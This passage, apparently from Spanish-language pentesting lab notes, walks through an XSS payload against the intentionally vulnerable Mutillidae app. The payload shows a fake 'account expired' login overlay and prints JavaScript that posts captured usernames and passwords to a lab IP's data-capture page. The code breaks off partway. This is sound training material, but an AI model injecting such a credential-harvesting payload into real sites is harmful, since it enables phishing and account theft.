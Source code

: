La funcionalidad basica de lo que hace este `payload` es que al usuario le salta una alerta de que su cuenta a expirado y que tiene que insertar las credenciales de nuevo para lo que sea, dichas credenciales se envian a un servidor que nosotros queramos o tengamos para recibirlas por parte del atacante, pero como en este caso no tenemos ningun servidor, lo haremos de la siguiente forma:

La propia pagina de `Mutillidae` tiene por asi decirlo un apartado que actua como nuestro servidor del atacante para que lo que ponga el usuario llegue a ese apartado que nosotros hemos configurado, por lo que nos tendremos que ir a `Data Capture Page` -> `View Captured Data`:

<figure><img src="../../.gitbook/assets/image (86) (1).png" alt=""><figcaption></figcaption></figure>

Eso actua como nuestro servidor y donde podremos ver las credenciales capturadas, por lo que los cambios que realizaremos al `payload` serian los siguientes.

Primero quitar el `localhost` y poner la IP de la maquina donde esta corriendo `Mutillidae` que en mi caso seria la `192.168.5.177` y en la parte de `lAction` cambiaremos la URL para que le redirija al servidor que en nuestro caso es el `Captured Data`, por lo que pondremos algo como `/src/index.php?page=captured-data.php` quedando algo tal que asi el codigo:

```html
<div id="modal" style="position:fixed;top:0;left:0;width:100%;height:100%;background-color:black;opacity:.5;z-index:999998;">&nbsp;</div>
	<div style="margin:5% auto;width:100%;position:fixed;top:5%;left:5%;z-index:9999999;">
	<div id="idlogin" style="width:405px;position:relative;margin:0 auto;background-color:white;padding:10px;border:1px solid black;">
	<script>
	function capture(theForm){
		var lXMLHTTP;
		try{
			var lData = "username=" + theForm.username.value + "&password=" + theForm.password.value;
			var lHost = "192.168.5.177";
			var lProtocol = "http";
			var lAction = lProtocol + "://" + lHost + "/mutillidae/src/index.php?page=capture-data.php";
			var lMethod = "post";
			try{
				lXMLHTTP = new ActiveXObject("Msxml2.XMLHTTP");
			}catch (e){
				try{
					lXMLHTTP = new ActiveXObject("Microsoft.XMLHTTP");
				}catch(e) {
					try{
						lXMLHTTP = new XMLHttpRequest();
					}catch (e) {
						alert(e.message);
					};//end try
				};//end try
			};//end try

			lXMLHTTP.onreadystatechange = function(){
				if(lXMLHTTP.readyState == 4){
```